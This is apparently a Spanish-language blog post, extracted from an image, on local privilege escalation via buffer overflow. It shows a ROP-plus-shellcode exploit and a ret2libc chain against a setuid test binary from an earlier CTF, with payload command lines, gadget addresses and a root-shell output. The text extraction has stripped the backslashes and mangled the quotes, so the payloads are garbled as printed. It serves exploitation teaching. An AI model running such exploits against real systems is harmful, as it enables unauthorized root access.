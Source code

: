 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  

\### Oops ###

$ sudo chown root:root vuln

$ sudo chmod u+s vuln

$ (cat a.txt ; cat) | /home/arget/vuln «\`cat sc.o«perl -e ‘print «A»x(140-33) . «xd0xbbxfdxf7» . «xb5x6cxfdxf7» . «xb6x6cxfdxf7» . «x03x1exe0xf7» . «xa4xd2xffxff» . «x30x6cxfdxf7″‘\`»  
1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
whoami  
root  
Qué hermosura.  
Si no aparece el prompt de la shell es porque escribimos y leemos a través de `cat`.  
Por cierto, esto podría valer como solución para el ctf del [post anterior](/?p=621). Si bien esto no es propiamente un ret2libc puro, ya que empleamos un shellcode (se trata de un ROP+shellcode), por eso mi solución abajo es también interesante.

La obtención de gadgets no siempre es completa mediante una única herramienta, suele ser recomendable buscar gadgets mediante varias herramientas, siendo mis preferidas `**ROPgadget**`, `Ropper`, `Radare`, `msfelfscan` (`msfpescan`). Adicionalmente, en Windows, puede servir `OllyDbg`.  
Soy consciente de que absolutamente todos los gadgets que he empleado pertenecen a librerías, lo que es poco recomendable, ya que lo hace poco portable, y en caso de que esté activado el ASLR no funcionaría, mientras que con el uso de gadgets del binario funcionaría incluso con ASLR, si bien solo si el binario es no-pie. Pero este era solo un ejemplo para demostrar la técnica ROP+shellcode, además este binario es demasiado pequeño como para poder encontrar todos los gadgets que pueden llegar a ser necesarios.

**\[1\] Ahora que nos hemos estado peleando todo este tiempo con los bytes nulos, os contaré un secreto: para situar en el stack un byte nulo (ya sea para que sea un argumento de una función o para recogerlo con un pop;ret en un registro con el objetivo de hacer un ret2syscall) se pueden emplear funciones como str(n)cpy —byte a byte—, memcpy(), sprintf()…**

No lo he mencionado hasta ahora para desarrollar bien otras técnicas. Al final todo se reduce a tener recursos.  
Vamos a ver la solución del reto de ayer de la forma fácil  
Sabiendo que

0x0804843c 0x00
08048370 <strcpy@plt>:

$1 = {<text variable, no debug info>} 0xf7e84d60 <setuid>  
$2 = {<text variable, no debug info>} 0xf7e01f80 <system>  
$3 = {<text variable, no debug info>} 0xf7df4f10 <exit>

0xf7f420a8 : /bin/sh

8048590: 5b pop ebx  
8048591: 5e pop esi  
8048592: 5f pop edi  
8048593: 5d pop ebp  
8048594: c3 ret

Construimos un esquema como este  
``/home/arget/vuln "`perl -e 'print "A"x140 . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "xaaxaaxffxff" . "x3cx84x04x08" . "x60x4dxe8xf7" . "x93x85x04x08" . "xefxbexadxde" . "x80x1fxe0xf7" . "x10x4fxdfxf7" . "xa8x20xf4xf7"'`"``

```